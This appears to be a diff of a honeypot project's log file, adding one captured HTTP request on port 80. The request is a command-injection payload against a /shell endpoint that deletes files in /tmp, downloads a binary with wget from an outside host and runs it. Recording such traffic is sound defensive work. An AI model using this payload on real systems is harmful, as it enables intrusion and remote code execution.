

Before and after one commit to 9carlo6/CandyPot, a CSV file: requests/port_80_requests.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/requests/port_80_requests.csv
+++ b/requests/port_80_requests.csv
+row 239: REQ_238_P80 | ('183.245.138.167', 40993) | b'GET /shell?cd+/tmp;rm+-rf+*;wget+v1.kannimanelaji.com/jaws;sh+/tmp/jaws HTTP/1.1\r\nUser-Agent: Hello, world\r\nHost: 127.0.0.1:80\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\nConnection: keep-alive\r\n\r\n' | 2022-05-13 07:34:44.866178
```
Also changed, not shown: requests/port_8080_requests.csv, requests/port_81_requests.csv, 44 other files.
